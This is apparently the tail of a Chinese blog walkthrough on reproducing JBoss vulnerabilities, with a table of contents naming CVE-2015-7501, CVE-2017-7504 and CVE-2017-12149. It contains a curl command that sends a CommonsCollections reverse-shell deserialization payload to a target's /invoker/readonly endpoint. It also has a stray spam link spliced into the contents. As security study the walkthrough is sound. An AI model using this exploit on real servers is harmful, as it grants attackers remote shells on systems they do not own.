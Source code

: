 
![image-20241115231244215](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115231244215.png)
#### 漏洞利用


* 继续利用`JavaDeserH2HC`



```
curl http://靶机-ip:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser

```

* shell就来了


![image-20241115231155913](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115231155913.png)
  * [Jboss漏洞复现](#jboss%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)
* [JMX Console 未授权访问漏洞](#jmx-console-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E)
* [漏洞发现](#%E6%BC%8F%E6%B4%9E%E5%8F%91%E7%8E%B0)
* [远程部署war包](#%E8%BF%9C%E7%A8%8B%E9%83%A8%E7%BD%B2war%E5%8C%85)
* [Jboss弱口令Getshell](#jboss%E5%BC%B1%E5%8F%A3%E4%BB%A4getshell)
* [CVE\-2007\-1036](#cve-2007-1036)
* [CVE\-2010\-0738（JMX Console安全认证绕过）](#cve-2010-0738jmx-console%E5%AE%89%E5%85%A8%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87)
* [CVE\-2015\-7501（JMXInvokerServlet 反序列化漏洞）](#cve-2015-7501jmxinvokerservlet-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E):[milou加速器](https://jiechuangmoxing.com)
* [漏洞发现](#%E6%BC%8F%E6%B4%9E%E5%8F%91%E7%8E%B0-1)
* [漏洞利用](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)
* [CVE\-2017\-7504（JBossMQ JMS 反序列化漏洞）](#cve-2017-7504jbossmq-jms-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E)
* [漏洞发现](#%E6%BC%8F%E6%B4%9E%E5%8F%91%E7%8E%B0-2)
* [漏洞利用](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8-1)
* [CVE\-2017\-12149（JbossApplicationServer反序列化命令执行漏洞）](#cve-2017-12149jbossapplicationserver%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E)
* [漏洞发现](#%E6%BC%8F%E6%B4%9E%E5%8F%91%E7%8E%B0-3)
* [漏洞利用](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8-2)

   ![](https://github.com/cnblogs_com/blogs/831478/galleries/2422693/o_240923102931_1.png)    - **本文作者：** [left\_shoulder](https://github.com)
 - **本文链接：** [https://github.com/left\-shoulder/p/18549594](https://github.com)
 - **关于博主：** 评论和私信会在第一时间回复。或者[直接私信](https://github.com)我。
 - **版权声明：** 本博客所有文章除特别声明外，均采用 [BY\-NC\-SA](https://github.com "BY-NC-SA") 许可协议。转载请注明出处！
 - **声援博主：** 如果您觉得文章对您有帮助，可以点击文章右下角**【[推荐](javascript:void(0);)】**一下。
     
